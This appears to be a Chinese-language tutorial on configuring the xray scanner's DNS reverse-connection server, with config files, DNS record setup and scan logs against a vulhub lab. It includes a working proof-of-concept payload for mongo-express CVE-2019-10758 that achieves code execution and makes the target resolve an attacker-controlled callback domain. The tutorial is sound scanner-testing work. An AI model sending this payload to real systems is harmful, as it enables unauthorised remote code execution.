

# xray dns 反连功能使用

先介绍一下产品, ct 有一个2B的漏扫产品洞鉴, 洞鉴的引擎部分, 叫 gunkit, 而 gunkit 的漏扫部分, 单独编译出来叫 xray, 也就是外界知晓的那个

也算做了几个月的 gunkit(xray) 修补者吧, 又刚好修补过反连相关的功能, 恰逢朋友问到, 就开个帖介绍一下反连功能的使用吧

要使用xray的反连漏扫功能, 我们需要一个能接收各种协议反连的server, 它可以存储接收到的请求, 并可以提供接口供xray查询

工作流程:

1. server 搭建
2. 提供日志查询 api
3. xray 进行漏扫
4. 漏扫结束后, xray 通过接口查询收到的反连, 并生成对应的漏扫结果


## 准备

### 0x00. 有关配置文件和证书文件

个人比较喜欢把常用工具加到`PATH`, 然后在哪里都可以用了, 但是xray的设计是从当前路径加载和写文件

所以当前目录下存在证书文件 `xray-license.lic` 才会被xray加载到.
每次 xray启动, 也会从当前目录读取扫描相关的配置文件 `config.yaml`, 

### 0x01. 反连功能相关配置解释

打开xray 生成的配置文件 `config.yaml`, 可以看到反连相关的配置项有:

```yaml
# 反连平台配置，更多解释见 https://docs.xray.cool/#/configration/reverse
# 注意: 默认配置为禁用反连平台，这是无法扫描出依赖反连平台的漏洞，这些漏洞包括 fastjson，ssrf 以及 poc 中依赖反连的情况等
reverse:
  db_file_path: ""                      # 反连平台数据库文件位置, 随便指定一个路径即可, 我一般用 `/tmp/reverse.db`
  token: ""                             # 反连平台认证的 Token, 按需配置, 最好配置一个强密码
  http:
    enabled: false
    listen_ip: 0.0.0.0
    listen_port: ""
    ip_header: ""                       # 在哪个 http header 中取 ip, 为空代表从 REMOTE_ADDR 中取
  dns:
    enabled: false
    listen_ip: 0.0.0.0
    domain: ""                          # DNS 域名配置, 用到dns反连的必填项, 用于生成payload里的域名
    is_domain_name_server: false        # 是否修改了域名的 ns 为反连平台，如果是，那 nslookup 等就不需要指定 dns 了
    resolve:                            # DNS 静态解析规则
    - type: A                           # A, AAAA, TXT 三种
      record: localhost
      value: 127.0.0.1
      ttl: 60
  client:
    remote_server: false                # 是否是独立的远程 server，如果是要在下面配置好远程的服务端地址
    http_base_url: ""                   # 默认将根据 ListenIP 和 ListenPort 生成，该地址是存在漏洞的目标反连回来的地址, 当反连平台前面有反代、绑定域名、端口映射时需要自行配置
    dns_server_ip: ""                   # 和 http_base_url 类似，实际用来访问 dns 服务器的地址
    reverse_api: ""                     # 隐藏选项, 指定获取反连信息的接口, 接口需满足定义, 详见 0x04.方案1
```


协议按需启用配置即可, 启用了 http协议的反连, 漏扫时才会启用对应反连协议的poc, 目前基本上所有的poc都是走的http协议, 所以这里要找个poc改改用

### 0x02. dns poc, 靶场准备

挑选了几个用到反连的poc, 最后选中了 mongo-express-cve-2019-10758,

- [mongo-express-cve-2019-10758.yml](https://github.com/chaitin/xray/blob/master/pocs/mongo-express-cve-2019-10758.yml)
- [靶场环境搭建](https://github.com/vulhub/vulhub/blob/master/mongo-express/CVE-2019-10758/README.md)

处理后的poc:

```yaml
name: poc-yaml-mongo-express-cve-2019-10758-dns
manual: true
transport: http
set:
    reverse: newReverse()
    reverseDomain: reverse.domain
rules:
    r0:
        request:
            cache: true
            method: POST
            path: /checkValid
            headers:
                Authorization: Basic YWRtaW46cGFzcw==
                Content-Type: application/x-www-form-urlencoded
            body: document=this.constructor.constructor('return process')().mainModule.require('dns').resolve('{{reverseDomain}}', (err, value) => {})
            follow_redirects: true
        expression: reverse.wait(5)
expression: r0()
detail:
    author: fnmsd(https://github.com/fnmsd)
    links:
        - https://github.com/masahiro331/CVE-2019-10758
        - https://www.twilio.com/blog/2017/08/http-requests-in-node-js.html
    description: Mongo Express CVE-2019-10758 Code Execution
    vulnpath: /checkValid
```

主要就是把http请求替换为dns请求, 如果目标没有提供原生的dns请求方法, 简单粗暴些把 `{{reverseUrl}}` 替换为 `http://{{reverseDomain}}/` 也可


### 0x03. dns解析配置

假设我有一个域名 jarvis.com, 想用于反连, 受平台影响, 是不能添加@记录的ns记录的, [原因](https://docs.dnspod.cn/dns/ns-record-error/)

所以这里选择添加子域名的ns记录, 这里共需要添加两条记录

1. ns 子域名解析到运行server的服务器
2. 用于反连的子域名(例如 subdomain), 解析到 ns.jarvis.com

配置完, dig一下 xxx.subdomain.jarvis.com, 如果dig有结果, 且server端的服务收到请求, 表示无问题, 我的个人域名刚好到期了, 暂时无法贴详情了..

这里为了测试运行效果, 我把靶机的dns服务器设置为运行server的机器了

靶机:
```bash
(base) jarvis@ubuntu:~$ dig jarvis.com

; <<>> DiG 9.10.3-P4-Ubuntu <<>> jarvis.com
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 36092
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 1232
;; QUESTION SECTION:
;jarvis.com.			IN	A

;; ANSWER SECTION:
jarvis.com.		3234	IN	A	216.128.130.74

;; Query time: 3 msec
;; SERVER: 127.0.1.1#53(127.0.1.1)
;; WHEN: Sat May 28 07:58:06 PDT 2022
;; MSG SIZE  rcvd: 55
```

server(以xray server 为例):
```bash
(base) jarvis@kali:~/Tools/xray$ ./xray reverse

____  ___.________.    ____.   _____.___.
\   \/  /\_   __   \  /  _  \  \__  |   |
 \     /  |    _  _/ /  /_\  \  /   |   |
 /     \  |    |   \/    |    \ \____   |
\___/\  \ |____|   /\____|_   / / _____/
      \_/       \_/        \_/  \/

Version: 1.8.4/a47961e0/COMMUNITY

[INFO] 2022-05-28 10:57:19 [default:entry.go:213] Loading config file from config.yaml
[INFO] 2022-05-28 10:57:20 [reverse:http_server.go:179] starting reverse http server
[INFO] 2022-05-28 10:57:20 [reverse:reverse.go:169] reverse server base url: http://0.0.0.0:8080, token: jarvis
[INFO] 2022-05-28 10:57:20 [reverse:reverse.go:170] reverse server webUI: http://0.0.0.0:8080/cland/
[INFO] 2022-05-28 10:57:20 [reverse:reverse.go:179] reverse dns server started
[INFO] 2022-05-28 10:57:20 [reverse:dns_server.go:172] starting reverse dns server
[INFO] 2022-05-28 10:58:04 [reverse:dns_server.go:102] reverse dns server received request [jarvis.com.]
[INFO] 2022-05-28 10:58:30 [reverse:dns_server.go:102] reverse dns server received request [jarvis.com.]
```

### 0x04. server 和 api 搭建

方案1. 有api的公共 dnslog 平台 提供 server, 自己写个api做解析和转换, 供xray查询

注意: 写博客的时候, 我才发现检查参数的部分代码有问题, 需要到下个版本修复. 方案1在 [xray 1.8.4] 及以前的版本是无效的

api接口定义:

Request: POST /any/path/which/need/write/in/config/
```json
{
  "token": "",
  "group_to_search": [],
  "units_to_search": [],
  "group_to_delete": []
}
```

Response:

```json
{
  "data": [
    {
      "id": "record id",
      "group_id": "",
      "unit_id": "",
      "time_stamp": "",
      "event_source": "internal",
      "event_type": "dns",
      "request": "reverse doamin",
      "remote_addr": ""
    }
  ]
}
```

[server demo](dns_server.py)

config.yaml
```yaml
reverse:
  db_file_path: "/tmp/reverse.db"                      # 反连平台数据库文件位置, 这是一个 KV 数据库
  token: "jarvis"                             # 反连平台认证的 Token, 独立部署时不能为空
  http:
    enabled: true
    listen_ip: 0.0.0.0
    listen_port: ""
    ip_header: ""                       # 在哪个 http header 中取 ip，为空代表从 REMOTE_ADDR 中取
  dns:
    enabled: true
    listen_ip: 0.0.0.0
    domain: "xxxx.jarvis.com"                          # DNS 域名配置
    is_domain_name_server: false        # 是否修改了域名的 ns 为反连平台，如果是，那 nslookup 等就不需要指定 dns 了
    resolve:                            # DNS 静态解析规则
    - type: A                           # A, AAAA, TXT 三种
      record: localhost
      value: 127.0.0.1
      ttl: 60
  client:
    remote_server: true                # 是否是独立的远程 server，如果是要在下面配置好远程的服务端地址
    http_base_url: ""
    dns_server_ip: ""                   # 和 http_base_url 类似，实际用来访问 dns 服务器的地址
    reverse_api: "http://192.168.2.145:8081/reverse/api/test"
```

run
```bash
(base) jarvis@kali:~/Tools/xray$ ./xray_reverse_api ws -u http://192.168.2.134:8081/ --poc poc-yaml-mongo-express-cve-2019-10758-dns.yaml

____  ___.________.    ____.   _____.___.
\   \/  /\_   __   \  /  _  \  \__  |   |
 \     /  |    _  _/ /  /_\  \  /   |   |
 /     \  |    |   \/    |    \ \____   |
\___/\  \ |____|   /\____|_   / / _____/
      \_/       \_/        \_/  \/

Version: 0.1.0/__unknown__/__unknown__

[INFO] 2022-05-28 13:31:23 [default:entry.go:213] Loading config file from config.yaml
[!] Warning: you should use --html-output, --webhook-output or --json-output to persist your scan result

Enabled plugins: [phantasm]

[INFO] 2022-05-28 13:31:23 [phantasm:phantasm.go:113] found local poc poc-yaml-mongo-express-cve-2019-10758-dns.yaml
[INFO] 2022-05-28 13:31:23 [phantasm:phantasm.go:180] 1 pocs have been loaded (debug level will show more details)
[INFO] 2022-05-28 13:31:23 [reverse:reverse.go:67] remote reverse server check passed
[INFO] 2022-05-28 13:31:23 [default:dispatcher.go:433] processing GET http://192.168.2.134:8081/
[INFO] 2022-05-28 13:31:23 [runner client:reverse.go:24] domain is : i-289b3c-2xxo-ndpm.xxxx.jarvis.com
[INFO] 2022-05-28 13:31:24 [reverse:fetch.go:27] callback called &reverse.Event{ID:0, GroupID:"2xxo", UnitId:"ndpm", TimeStamp:1653759086, EventSource:"internal", EventType:"dn", Request:"i-abcdef-2xxo-ndpm-xxxx.jarvis.com", RemoteAddr:"127.0.0.1"}
[INFO] 2022-05-28 13:31:24 [runner client:reverse.go:56] reverse received &reverse.Event{ID:0, GroupID:"2xxo", UnitId:"ndpm", TimeStamp:1653759086, EventSource:"internal", EventType:"dn", Request:"i-abcdef-2xxo-ndpm-xxxx.jarvis.com", RemoteAddr:"127.0.0.1"} in poc
[Vuln: phantasm]
Target           "http://192.168.2.134:8081/"
VulnType         "poc-yaml-mongo-express-cve-2019-10758-dns/default"
vulnpath         "/checkValid"
links            ["https://github.com/masahiro331/CVE-2019-10758" "https://www.twilio.com/blog/2017/08/http-requests-in-node-js.html"]
description      "Mongo Express CVE-2019-10758 Code Execution"

[INFO] 2022-05-28 13:31:25 [controller:dispatcher.go:542] wait for reverse server finished
[WARN] 2022-05-28 13:31:25 [reverse:fetch.go:44] group not found for event &reverse.Event{ID:0, GroupID:"2xxo", UnitId:"ndpm", TimeStamp:1653759087, EventSource:"internal", EventType:"dn", Request:"i-abcdef-2xxo-ndpm-xxxx.jarvis.com", RemoteAddr:"127.0.0.1"}
[WARN] 2022-05-28 13:31:26 [reverse:fetch.go:44] group not found for event &reverse.Event{ID:0, GroupID:"2xxo", UnitId:"ndpm", TimeStamp:1653759088, EventSource:"internal", EventType:"dn", Request:"i-abcdef-2xxo-ndpm-xxxx.jarvis.com", RemoteAddr:"127.0.0.1"}
[WARN] 2022-05-28 13:31:27 [reverse:fetch.go:44] group not found for event &reverse.Event{ID:0, GroupID:"2xxo", UnitId:"ndpm", TimeStamp:1653759089, EventSource:"internal", EventType:"dn", Request:"i-abcdef-2xxo-ndpm-xxxx.jarvis.com", RemoteAddr:"127.0.0.1"}
[*] All pending requests have been scanned
[*] scanned: 1, pending: 0, requestSent: 2, latency: 7.00ms, failedRatio: 0.00%
[INFO] 2022-05-28 13:31:28 [controller:dispatcher.go:562] controller released, task done
```

方案2. xray内置server

其实xray自身是有带 server 功能的

```bash
(base) jarvis@kali:~/Tools/xray$ ./xray reverse

____  ___.________.    ____.   _____.___.
\   \/  /\_   __   \  /  _  \  \__  |   |
 \     /  |    _  _/ /  /_\  \  /   |   |
 /     \  |    |   \/    |    \ \____   |
\___/\  \ |____|   /\____|_   / / _____/
      \_/       \_/        \_/  \/

Version: 1.8.4/a47961e0/COMMUNITY

[INFO] 2022-05-28 10:37:41 [default:entry.go:213] Loading config file from config.yaml
[INFO] 2022-05-28 10:37:42 [reverse:http_server.go:179] starting reverse http server
[INFO] 2022-05-28 10:37:42 [reverse:reverse.go:169] reverse server base url: http://0.0.0.0:8080, token: jarvis
[INFO] 2022-05-28 10:37:42 [reverse:reverse.go:170] reverse server webUI: http://0.0.0.0:8080/cland/
[INFO] 2022-05-28 10:37:42 [reverse:reverse.go:179] reverse dns server started
[INFO] 2022-05-28 10:37:42 [reverse:dns_server.go:172] starting reverse dns server
```

此时 xray会在http监听端口起一个 webUI, 挺好用的, 不过这里只会记录符合xray格式的请求记录, 域名和链接可在web端点击生成



config.yaml

server端
```yaml
reverse:
  db_file_path: "/tmp/reverse_server.db"  # 必填
  token: "jarvis" # 必填
  http:
    enabled: true
    listen_ip: 0.0.0.0
    listen_port: "8080"
    ip_header: ""                       # 在哪个 http header 中取 ip，为空代表从 REMOTE_ADDR 中取
  dns:
    enabled: true                       # 必填
    listen_ip: 0.0.0.0
    domain: "xxxx.jarvis.com"           # DNS 域名配置, 必填
    is_domain_name_server: false        # 是否修改了域名的 ns 为反连平台，如果是，那 nslookup 等就不需要指定 dns 了
    resolve:                            # DNS 静态解析规则
    - type: A                           # A, AAAA, TXT 三种
      record: localhost
      value: 127.0.0.1
      ttl: 60
  client:
    remote_server: false                # 是否是独立的远程 server，如果是要在下面配置好远程的服务端地址
    http_base_url: ""                   # 默认将根据 ListenIP 和 ListenPort 生成，该地址是存在漏洞的目标反连回来的地址, 当反连平台前面有反代、绑定域名、端口映射时需要自行配置
    dns_server_ip: ""                   # 和 http_base_url 类似，实际用来访问 dns 服务器的地址
```

漏扫端
```yaml
# 反连平台配置，更多解释见 https://docs.xray.cool/#/configration/reverse
# 注意: 默认配置为禁用反连平台，这是无法扫描出依赖反连平台的漏洞，这些漏洞包括 fastjson，ssrf 以及 poc 中依赖反连的情况等
reverse:
  db_file_path: "/tmp/reverse.db"                      # 反连平台数据库文件位置, 这是一个 KV 数据库
  token: "jarvis"                             # 反连平台认证的 Token, 独立部署时不能为空
  http:
    enabled: true
    listen_ip: 0.0.0.0
    listen_port: ""
    ip_header: ""                       # 在哪个 http header 中取 ip，为空代表从 REMOTE_ADDR 中取
  dns:
    enabled: true
    listen_ip: 0.0.0.0
    domain: "xxxx.jarvis.com"                          # DNS 域名配置
    is_domain_name_server: false        # 是否修改了域名的 ns 为反连平台，如果是，那 nslookup 等就不需要指定 dns 了
    resolve:                            # DNS 静态解析规则
    - type: A                           # A, AAAA, TXT 三种
      record: localhost
      value: 127.0.0.1
      ttl: 60
  client:
    remote_server: true                # 是否是独立的远程 server，如果是要在下面配置好远程的服务端地址
    http_base_url: "http://192.168.2.168:8080"                   # 默认将根据 ListenIP 和 ListenPort 生成，该地址是存在漏洞的目标反连回来的地址, 当反连平台前面有反代、绑定域名、端口映射时需要自行配置
    dns_server_ip: ""                   # 和 http_base_url 类似，实际用来访问 dns 服务器的地址
```

run

xray. vul scan
```bash
(base) jarvis@kali:~/Tools/xray$ ./xray ws -u http://192.168.2.134:8081/ --poc poc-yaml-mongo-express-cve-2019-10758-dns.yaml

____  ___.________.    ____.   _____.___.
\   \/  /\_   __   \  /  _  \  \__  |   |
 \     /  |    _  _/ /  /_\  \  /   |   |
 /     \  |    |   \/    |    \ \____   |
\___/\  \ |____|   /\____|_   / / _____/
      \_/       \_/        \_/  \/

Version: 1.8.4/a47961e0/COMMUNITY

[INFO] 2022-05-28 11:54:20 [default:entry.go:213] Loading config file from config.yaml
[!] Warning: you should use --html-output, --webhook-output or --json-output to persist your scan result

Enabled plugins: [phantasm]

[INFO] 2022-05-28 11:54:21 [phantasm:phantasm.go:113] found local poc poc-yaml-mongo-express-cve-2019-10758-dns.yaml
[INFO] 2022-05-28 11:54:21 [phantasm:phantasm.go:180] 1 pocs have been loaded (debug level will show more details)
[INFO] 2022-05-28 11:54:21 [reverse:reverse.go:67] remote reverse server check passed
[INFO] 2022-05-28 11:54:21 [default:dispatcher.go:433] processing GET http://192.168.2.134:8081/
[INFO] 2022-05-28 11:54:22 [reverse:fetch.go:27] callback called &reverse.Event{ID:1, GroupID:"uo2r", UnitId:"pn82", TimeStamp:1653753261045, EventSource:"internal", EventType:"dns", Request:"i-ab6889-uo2r-pn82.xxxx.jarvis.com.", RemoteAddr:"192.168.2.134:47972"}
[INFO] 2022-05-28 11:54:22 [runner client:reverse.go:54] reverse received &reverse.Event{ID:1, GroupID:"uo2r", UnitId:"pn82", TimeStamp:1653753261045, EventSource:"internal", EventType:"dns", Request:"i-ab6889-uo2r-pn82.xxxx.jarvis.com.", RemoteAddr:"192.168.2.134:47972"} in poc
[Vuln: phantasm]
Target           "http://192.168.2.134:8081/"
VulnType         "poc-yaml-mongo-express-cve-2019-10758-dns/default"
links            ["https://github.com/masahiro331/CVE-2019-10758" "https://www.twilio.com/blog/2017/08/http-requests-in-node-js.html"]
vulnpath         "/checkValid"
description      "Mongo Express CVE-2019-10758 Code Execution"

[INFO] 2022-05-28 11:54:22 [controller:dispatcher.go:542] wait for reverse server finished
[*] All pending requests have been scanned
[*] scanned: 1, pending: 0, requestSent: 2, latency: 3.00ms, failedRatio: 0.00%
[INFO] 2022-05-28 11:54:25 [controller:dispatcher.go:562] controller released, task done
```

xray.server
```bash
(base) jarvis@kali:~/Tools/xray/server$ ./xray reverse

____  ___.________.    ____.   _____.___.
\   \/  /\_   __   \  /  _  \  \__  |   |
 \     /  |    _  _/ /  /_\  \  /   |   |
 /     \  |    |   \/    |    \ \____   |
\___/\  \ |____|   /\____|_   / / _____/
      \_/       \_/        \_/  \/

Version: 1.8.4/a47961e0/COMMUNITY

[INFO] 2022-05-28 11:38:27 [default:entry.go:213] Loading config file from config.yaml
[INFO] 2022-05-28 11:38:28 [reverse:http_server.go:179] starting reverse http server
[INFO] 2022-05-28 11:38:28 [reverse:reverse.go:169] reverse server base url: http://0.0.0.0:8080, token: jarvis
[INFO] 2022-05-28 11:38:28 [reverse:reverse.go:170] reverse server webUI: http://0.0.0.0:8080/cland/
[INFO] 2022-05-28 11:38:28 [reverse:reverse.go:179] reverse dns server started
[INFO] 2022-05-28 11:38:28 [reverse:dns_server.go:172] starting reverse dns server
[INFO] 2022-05-28 11:54:21 [reverse:dns_server.go:102] reverse dns server received request [i-ab6889-uo2r-pn82.xxxx.jarvis.com.]
```

方案3. 直接在公网服务器上运行xray, xray在漏扫时, 会自行起 方案2 提到的服务, 不过漏扫任务一旦结束, 服务就会关掉, 用起来不是很方便, 但好在不需要复杂配置

config.yaml
```yaml
reverse:
  db_file_path: "/tmp/reverse.db"                      # 反连平台数据库文件位置, 这是一个 KV 数据库
  token: "jarvis"                             # 反连平台认证的 Token, 独立部署时不能为空
  http:
    enabled: true
    listen_ip: "0.0.0.0"
    listen_port: "8080"
    ip_header: ""                       # 在哪个 http header 中取 ip，为空代表从 REMOTE_ADDR 中取
  dns:
    enabled: true
    listen_ip: "0.0.0.0"
    domain: "reverse.jarvis.com"                          # DNS 域名配置
    is_domain_name_server: false        # 是否修改了域名的 ns 为反连平台，如果是，那 nslookup 等就不需要指定 dns 了
    resolve:                            # DNS 静态解析规则
    - type: A                           # A, AAAA, TXT 三种
      record: localhost
      value: 127.0.0.1
      ttl: 60
  client:
    remote_server: false                # 是否是独立的远程 server，如果是要在下面配置好远程的服务端地址
    http_base_url: ""                   # 默认将根据 ListenIP 和 ListenPort 生成，该地址是存在漏洞的目标反连回来的地址, 当反连平台前面有反代、绑定域名、端口映射时需要自行配置
    dns_server_ip: ""                   # 和 http_base_url 类似，实际用来访问 dns 服务器的地址
```

run
```bash
(base) jarvis@kali:~/Tools/xray$ ./xray ws -u http://192.168.2.134:8081/ --poc poc-yaml-mongo-express-cve-2019-10758-dns.yaml

____  ___.________.    ____.   _____.___.
\   \/  /\_   __   \  /  _  \  \__  |   |
 \     /  |    _  _/ /  /_\  \  /   |   |
 /     \  |    |   \/    |    \ \____   |
\___/\  \ |____|   /\____|_   / / _____/
      \_/       \_/        \_/  \/

Version: 1.8.4/a47961e0/COMMUNITY

[INFO] 2022-05-28 11:25:19 [default:entry.go:213] Loading config file from config.yaml
[!] Warning: you should use --html-output, --webhook-output or --json-output to persist your scan result

Enabled plugins: [phantasm]

[INFO] 2022-05-28 11:25:20 [phantasm:phantasm.go:113] found local poc poc-yaml-mongo-express-cve-2019-10758-dns.yaml
[INFO] 2022-05-28 11:25:20 [phantasm:phantasm.go:180] 1 pocs have been loaded (debug level will show more details)
[INFO] 2022-05-28 11:25:20 [reverse:http_server.go:179] starting reverse http server
[INFO] 2022-05-28 11:25:20 [reverse:reverse.go:169] reverse server base url: http://0.0.0.0:8080, token: jarvis
[INFO] 2022-05-28 11:25:20 [reverse:reverse.go:170] reverse server webUI: http://0.0.0.0:8080/cland/
[INFO] 2022-05-28 11:25:20 [reverse:reverse.go:179] reverse dns server started
[INFO] 2022-05-28 11:25:20 [reverse:dns_server.go:172] starting reverse dns server
[INFO] 2022-05-28 11:25:20 [default:dispatcher.go:433] processing GET http://192.168.2.134:8081/
[INFO] 2022-05-28 11:25:20 [reverse:dns_server.go:102] reverse dns server received request [i-b044dd-71fn-r4kt.reverse.jarvis.com.]
[INFO] 2022-05-28 11:25:21 [reverse:fetch.go:27] callback called &reverse.Event{ID:4, GroupID:"71fn", UnitId:"r4kt", TimeStamp:1653751520123, EventSource:"internal", EventType:"dns", Request:"i-b044dd-71fn-r4kt.reverse.jarvis.com.", RemoteAddr:"192.168.2.134:47972"}
[INFO] 2022-05-28 11:25:21 [runner client:reverse.go:54] reverse received &reverse.Event{ID:4, GroupID:"71fn", UnitId:"r4kt", TimeStamp:1653751520123, EventSource:"internal", EventType:"dns", Request:"i-b044dd-71fn-r4kt.reverse.jarvis.com.", RemoteAddr:"192.168.2.134:47972"} in poc
[Vuln: phantasm]
Target           "http://192.168.2.134:8081/"
VulnType         "poc-yaml-mongo-express-cve-2019-10758-dns/default"
links            ["https://github.com/masahiro331/CVE-2019-10758" "https://www.twilio.com/blog/2017/08/http-requests-in-node-js.html"]
description      "Mongo Express CVE-2019-10758 Code Execution"
vulnpath         "/checkValid"

[INFO] 2022-05-28 11:25:21 [controller:dispatcher.go:542] wait for reverse server finished
[*] All pending requests have been scanned
[*] scanned: 1, pending: 0, requestSent: 2, latency: 5.50ms, failedRatio: 0.00%
[INFO] 2022-05-28 11:25:24 [controller:dispatcher.go:562] controller released, task done
```

